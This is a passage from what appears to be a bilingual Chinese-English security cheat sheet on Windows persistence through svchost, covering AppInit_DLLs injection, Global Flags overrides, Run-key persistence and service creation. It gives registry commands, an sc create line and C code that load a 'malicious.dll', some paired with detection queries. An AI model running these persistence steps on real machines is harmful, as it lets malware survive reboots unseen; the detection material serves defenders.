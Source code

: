  **24\. AppInit_DLLs  Injection**

  *   *   * 

    
    
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "malicious.dll"  
    process.name: "reg.exe" AND process.args: "AppInit_DLLs"

 **25\. Global Flags Override**

  * 

    
    
     gflags.exe /p /enable svchost.exe /full

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    HKEY hKey;    DWORD dwFlags = 0x2;  // FLG_HEAP_ENABLE_TAIL_CHECK, as an example  
        // Open the Image File Execution Options key for svchost.exe    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\svchost.exe", 0, KEY_SET_VALUE, &hKey) != ERROR_SUCCESS) {        printf("Failed to open registry key.\n");        return 1;    }  
        // Set the global flag    if (RegSetValueEx(hKey, "GlobalFlag", 0, REG_DWORD, (BYTE*)&dwFlags, sizeof(dwFlags)) != ERROR_SUCCESS) {        printf("Failed to set GlobalFlag.\n");        RegCloseKey(hKey);        return 1;    }  
        printf("GlobalFlag set successfully for svchost.exe.\n");  
        // Cleanup    RegCloseKey(hKey);    return 0;}

 **26\. 注册表持久化**

 **说明:**  通过注册表添加持久性，以便在启动时运行恶意svchost

  *   *   * 

    
    
    reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "MaliciousService" /t REG_SZ /d "svchost.exe -k netsvcs -p malicious.dll"  
    process.name: "reg.exe" AND process.args: "CurrentVersion\Run" AND process.args: "svchost.exe"

 **27\. 服务劫持(Service Hijacking)**

 **说明:  **使用svchost创建恶意服务

  * 

    
    
    sc create MaliciousService binPath= "svchost.exe -k netsvcs -p malicious.dll"

 **28\. 计划任务**

 ** **说明:  ****创建定时任务运行恶意svchost

  * 

    
    